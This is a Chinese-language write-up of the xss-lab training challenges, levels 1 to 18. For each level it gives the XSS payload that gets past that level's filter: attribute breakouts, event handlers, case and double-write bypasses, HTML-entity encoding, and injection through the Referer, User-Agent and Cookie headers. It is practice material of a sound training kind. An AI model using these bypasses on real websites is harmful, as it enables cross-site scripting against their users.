 ```yaml
---
title: xss-lab通关小记
id: xss-lab通关小记
date: 2021-01-03 11:17:18
sidebar_position: 2
---
```


<!-- more -->





实际构造闭合，另外要对js有一定了解

常用测试语句：

```javascript
<script>alert(1)</script>
<img src=x onerror=alert(1)>
<svg onload=alert(1)>
<a href=javascript:alert(1)>
```

## Level1

url为：http://xssaq.com/yx/level1.php?name=test
GET型，源码显示
在传参处插入代码即可：?name=`<script>alert(1)</script>`

## Level2

Url为:http://xssaq.com/yx/level2.php?keyword=test
GET型,输入`<script>alert(/hack11/)</script>`：
![](https://i.loli.net/2021/02/13/DBNOTv9yuzCqMQm.png)

构造闭合，即`"><script>alert(/hack11/)</script>//`
"和>将其之前的语句闭合为value=<"">,//或者<"将后方">注释
![](https://i.loli.net/2021/02/13/GHM4a78wmlZrt1f.png)





## Level3

Value同2，value="">
`<script>alert(/hack11/)</script>`,查看响应，后端将`<>`过滤了
![](https://i.loli.net/2021/02/13/IBsk2vCh5fR4oFD.png)

查看源码，使用了htmlspecialchars函数
![](https://i.loli.net/2021/02/13/n5wQOlJ4BMG6Xms.png)
![](https://i.loli.net/2021/02/13/FSEZ6xjpqacyXD1.png)


可以使用不带有尖括号的特殊字符进行尝试
如：`' onclick='alert(1)`
（利用了HTML DOM 的onclick事件，点击后触发包含的命令）	

- 第一个单引号的作用：闭合`value='`
- 第二个单引号的作用：与valuer=''的第二个引号对应，构成`onclick='alert(1)'`
  ![](https://i.loli.net/2021/02/13/ifQhPs5CEXYJcbD.png)





## Level4

输入：`"><script>alert(/hack11/)</script>//`		，`<>`被过滤
![](https://i.loli.net/2021/02/13/5XnuHTlBzUYPGSi.png)

类似level3，不同的是单引号换为双引号构造闭合：
`" onclick="alert(1)`
![](https://i.loli.net/2021/02/13/hVZxg39tKsEAfpG.png)


## Level5

- 尝试 `"><script>alert(/hack11/)</script><"`，发现script被过滤
  ![](https://i.loli.net/2021/02/13/fwqic3VlrZvYRz2.png)

- 尝试`" onclick="alert(1)`，发现on被过滤
  ![](https://i.loli.net/2021/02/13/lLNBKGCsAtcQom8.png)

- 最终poc：`"><a href=javascript:alert(1)><"` 
  ![](https://i.loli.net/2021/02/13/2QKFvDzJmacTxYS.png)
  点击即可触发	
  ![](https://i.loli.net/2021/02/13/YLMlUZ6IVq3mwtj.png)

## Level6

- 构造 `<script>alert(1)</script>`	，`script`被过滤
  ![](https://i.loli.net/2021/02/13/mkcMn8bqDWVdLpg.png)

- 构造 `<img src=x onerror=alert(1)>`  ,`src`,`on`被过滤
  ![](https://i.loli.net/2021/02/13/h4gtFHRDqI5KBpf.png)

- 构造 `<a href=javascript:alert(1)>`	 ，`href`被过滤
  ![](https://i.loli.net/2021/02/13/yCrAILKH3dzEfgl.png)


- 最终poc1：
  `"><a Href=javascript:alert(1)><"` 进行大小写绕过
  ![](https://i.loli.net/2021/02/13/PDRVBjso12MxYXH.png)
  ![](https://i.loli.net/2021/02/13/ZJ73fWwcuYhzxFe.png)


- 最终poc2：
  `" ONclick="alert(1)`，其他亦同
  ![](https://i.loli.net/2021/02/13/ejVWHLoqZrpixaf.png)


- 源码：过滤部分关键字，没有对大小写进行针对
  ![](https://i.loli.net/2021/02/13/Lo31XaGHvIMRitw.png)


## Level7

- 老四样测试，script、src、on、href皆被置换为空

```javascript
<script>alert(1)</script> 
<img src=x onerror=alert(1)>
<svg onload=alert(1)>
<a href=javascript:alert(1)>
```

![](https://i.loli.net/2021/02/13/8CW54NmTldBEvLa.png)
![](https://i.loli.net/2021/02/13/zZEaPMpcVQT5LCt.png)
![](https://i.loli.net/2021/02/13/RfE3meS25jqy4oz.png)
![](https://i.loli.net/2021/02/13/qMYmV7ZT8KC1t2J.png)

- 尝试大小写绕过，会将输入全部转换为小写，在匹配关键词置换为空
- poc(双写绕过)：
  `"><a hrhrefef=javascriscriptpt:alert(1)><"`
  ![](https://i.loli.net/2021/02/13/wq1KlSz2TGdJ6DR.png)
  ![](https://i.loli.net/2021/02/13/4rtTgZfAanjWYc7.png)


- 源码：过滤部分关键字：strtolower把所有字符转换为小写再进行过滤

![](https://i.loli.net/2021/02/13/tMjuFApHsYIP7xc.png)


## Level8

- '添加友情链接'，应为DOM型xss
  `<a href=javascript:alert(1)>`：
  href，javascript都被过滤，大小写和双写绕过都失效
  ![](https://i.loli.net/2021/02/13/okHQ72fMaguFmEr.png)

- 尝试编码绕过
  `javascript:alert(1)`
  ![](https://i.loli.net/2021/02/13/4NfeLIc6BguKdrZ.png)

- Burpsuite编码

```javascript
&#x6a;&#x61;&#x76;&#x61;&#x73;&#x63;&#x72;&#x69;&#x70;&#x74;&#x3a;&#x61;&#x6c;&#x65;&#x72;&#x74;&#x28;&#x31;&#x29;	
```

![](https://i.loli.net/2021/02/13/jyH9wteMQIm2xhD.png)

## Level9

- DOM型，基于Level8多了一个判定，查看源码，需在构造语句后加上`http://`
  即：

```javascript
&#x6a;&#x61;&#x76;&#x61;&#x73;&#x63;&#x72;&#x69;&#x70;&#x74;&#x3a;&#x61;&#x6c;&#x65;&#x72;&#x74;&#x28;&#x31;&#x29;//http://
```

- 源码：
  同8，先将关键字替换，再判断变量后是否有`http://`
  Strpos($str,’http://’)：查找http://在字符串中第一次出现的位置
  ![](https://i.loli.net/2021/02/13/WqVb1EzPLfopyCx.png)


## Level10

- `<script>alert(1)</script>`		过滤了`<>`，尝试编码不能绕过，无法构造事件触发xss、无法利用属性的javascript协议、无法利用css注入
  ![](https://i.loli.net/2021/02/13/rkp8zyZWtIailOT.png)

- 存在三个input变量，尝试提交
  源码：`<input name="t_sort"  value=" '.$str33.' " type="hidden">`
  Payload：`1&t_sort=  " type="text" onclick="alert(1)`
  ![](https://i.loli.net/2021/02/13/oKn6UHsgJPMIrqj.png)
  `1&t_sort=xxx` 将xxx作为t_sort的value输入
  `" type="text" onclick="alert(1) `是置入value	的语句
  `type="text"` 形成可点击的文本框，方便触发其后的onclick="alert(1)

## Level11

- 查看源码
  仅t_sort和t_ref的可传参，
  `$str11=$_SERVER['HTTP_REFERER'];//`将payload从http头的referer栏获取
  ![](https://i.loli.net/2021/02/13/2CutM5RFrlQoBhX.png)

- 一．
  浏览器插件修改referfer，`value=1&t_sort=  " type="text" onclick="alert(1)`
  ![](https://i.loli.net/2021/02/13/JVetGAoDWhNuriS.png)

- 二．
  利用burpsuite在跳转至该网页时抓包，修改其中`referer`为`poc`即可
  `1&t_sort=  " type="text" onclick="alert(1)`
  ![](https://i.loli.net/2021/02/13/brkZhBiJusDGMmT.png)

## Level12

- 输入：`" type="text" onclick="alert(1)`
  ![](https://i.loli.net/2021/02/13/FOBly6kYp5hQAxZ.png)
  ![](https://i.loli.net/2021/02/13/8EiaVFOuep1N5nZ.png)


- 从标头中的User-Agent中获取
  User-Agent：`" type="text" onclick="alert(1)`
  ![](https://i.loli.net/2021/02/13/W5JizDwSFlqy62Y.png)


## Level13

如图
![](https://i.loli.net/2021/02/13/EZn9j6qgMdRUGXS.png)

- 查看标头
  ![](https://i.loli.net/2021/02/13/WDyMe6XP7w9vTs8.png)



- 修改cookie
  Cookie：`user="type="text" onclick="alert(1)"`

![](https://i.loli.net/2021/02/13/dsWx4JaFARcfgEp.png)


## Level14

百度一下：本关因iframe调用的文件地址失效，无法进行测试。要考的应该是通过修改	iframe调用的文件来实现xss注入

## Level15

- ng-include指令一般用于包含外部的 HTML 文件，ng-include属性的值可以是一个表达	式，返回一个文件名，但是默认情况下，包含的文件需要包含在同一个域名下。
  ![](https://i.loli.net/2021/02/13/fTDSb42LBXuZdjy.png)

- 可以包含一个有漏洞的页面进行破解
  eg:	`level15.php?src='name=<script>alert(1)</script>'`

## Level16

- `<script>alert(1)</script>`
  ![](https://i.loli.net/2021/02/13/NBiRrWhDmXpkYeZ.png)

- 空格、反斜杠、script都被str_replace函数替换成&nbsp
  ![](https://i.loli.net/2021/02/13/vw2HtkGNqFW1ylD.png)

- HTML中可以将%0a或者%0D当成空格使用，故可构造
  Poc：`<svg%0aonload=alert(1)>`
  ![](https://i.loli.net/2021/02/13/WOAj6vXTerNdChY.png)


## Level17

- Url中：level17.php?arg01=123&arg02=321
  将arg01和arg02的结果用=拼接
  ![](https://i.loli.net/2021/02/13/H7Wjb1OS5twXYq2.png)

- 可利用此构造：`onclick=javascript:alert(/xss/)`
  Poc：`level17.php?arg01= onmousemove&arg02=javascript:alert(/xss/)`
  ![](https://i.loli.net/2021/02/13/CmdPrh5uHVcEkyG.png)

## Level18

同17
![](https://i.loli.net/2021/02/13/DUo8dhKymzrpJEQ.png)



